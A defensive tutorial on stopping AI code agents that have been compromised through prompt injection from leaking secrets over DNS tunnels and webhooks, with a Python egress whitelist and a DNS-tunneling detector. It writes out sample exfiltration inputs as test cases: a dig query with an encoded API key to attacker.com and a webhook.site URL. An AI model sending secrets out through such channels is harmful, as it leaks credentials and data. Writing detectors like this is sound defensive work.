

# Data Exfiltration Gates: Blocking DNS Tunnels and Covert Webhooks

> [!NOTE]
> **📖 Article Overview**
> If an autonomous code daemon is compromised via prompt injection, the attacker's primary objective is data exfiltration. Since sandboxed containers block direct internet access, attackers use covert communication channels—such as DNS lookup tunneling or raw HTTP webhook requests—to leak API keys, source files, and database records. To prevent this, security architects must build **Data Exfiltration Gates**. In this article, we analyze egress exfiltration techniques and implement an egress proxy checker in Python.

---

## The Threat of Covert Exfiltration Channels

Even inside a sandbox environment, outbound network controls can be bypassed:
* **The DNS Tunneling Exploit**: Since containers need DNS lookup access to resolve dependencies, attackers encode sensitive data inside subdomain queries (e.g. `dig <base64_api_key>.attacker.com`). The database server forwards the query, allowing the attacker to capture the data.
* **Webhook Exfiltration**: Compromised tools can make silent POST requests to transient webhook endpoints, leaking environment variables.
* **The Solution**: **Strict Egress Gateways**. We intercept all outbound network calls, restrict DNS resolution to a whitelisted set of domains, and audit payload sizes.



---

## 1. Under the Hood: Outbound Proxy Architectures

To secure outbound container communication:
* **HTTP/HTTPS Egress Proxying**: Route all container outbound traffic through a proxy (e.g., Squid or Envoy) that validates HTTP headers, target domains, and certificate validity.
* **DNS Resolution Firewalls**: Restrict container resolver configurations to trusted internal DNS servers that block queries to untrusted or newly registered domains.

---

## 2. Implementing Safety Restrictions

Configure your egress proxy gates with these rules:
1. **Strict Whitelisting**: Disable all outbound traffic by default. Explicitly whitelist only the specific domains required for the agent's tasks (e.g. `api.github.com`).
2. **DNS Query Length Limits**: Block DNS queries where the subdomain length exceeds 64 characters, as this is a common indicator of DNS tunneling.

---

## Code Demo: Egress Proxy Validator

Below is a Python implementation of an egress proxy checker. It intercepts outbound connection requests, validates domain whitelists, scans for DNS tunneling patterns, and blocks unauthorized egress calls.

```python
import re
from typing import Dict, Any, Tuple

class EgressProxyGate:
    def __init__(self):
        # Whitelist of allowed external domains
        self.whitelisted_domains = ["api.github.com", "pypi.org", "replit.com"]

    def validate_http_egress(self, url: str) -> Tuple[bool, str]:
        # Extract host domain from URL
        match = re.search(r"https?://([^/]+)", url)
        if not match:
            return False, "Invalid URL format."
        
        domain = match.group(1)
        
        # Enforce whitelist constraint
        if domain not in self.whitelisted_domains:
            return False, f"Blocked Egress: Target domain '{domain}' is not whitelisted."
            
        return True, "Egress Allowed: Domain matches whitelist."

    def validate_dns_query(self, query: str) -> Tuple[bool, str]:
        # Detect DNS tunneling: check if query contains long subdomains
        parts = query.split(".")
        if len(parts) > 2:
            subdomain = parts[0]
            # DNS tunneling payloads typically use long, high-entropy subdomains
            if len(subdomain) > 20 and re.match(r"^[a-zA-Z0-9_-]+$", subdomain):
                return False, f"Blocked DNS Query: Suspected tunneling payload (length: {len(subdomain)})."

        return True, "DNS Query Allowed: Query is clean."

if __name__ == "__main__":
    proxy = EgressProxyGate()

    print("🛡️ Initializing Egress Network Gates...")
    print("----------------------------------------")

    # Case 1: Authorized webhook request to PyPI
    url_pypi = "https://pypi.org/pypi/requests/json"
    status_pypi, log_pypi = proxy.validate_http_egress(url_pypi)
    print(f"[HTTP] Target: {url_pypi} | Status: {status_pypi} | Log: {log_pypi}")

    # Case 2: Unauthorized webhook request to attacker server
    url_attacker = "https://webhook.site/covert-exfiltrate-payload"
    status_attack, log_attack = proxy.validate_http_egress(url_attacker)
    print(f"[HTTP] Target: {url_attacker} | Status: {status_attack} | Log: {log_attack}")

    # Case 3: Suspected DNS tunneling query
    dns_tunnel = "c2VjcmV0X2FwaV9rZXlfdmFsdWU.attacker.com"
    status_dns, log_dns = proxy.validate_dns_query(dns_tunnel)
    print(f"[DNS]  Target: {dns_tunnel} | Status: {status_dns} | Log: {log_dns}")
```

---

## Egress Optimization Takeaways

* **Default to Block**: Block all outbound network traffic from your agent container by default.
* **Scan for DNS Tunneling**: Monitor DNS query sizes and block lookups with excessively long subdomains.
* **Isolate Credentials**: Never store production environment credentials in sandbox containers where agent tools run.
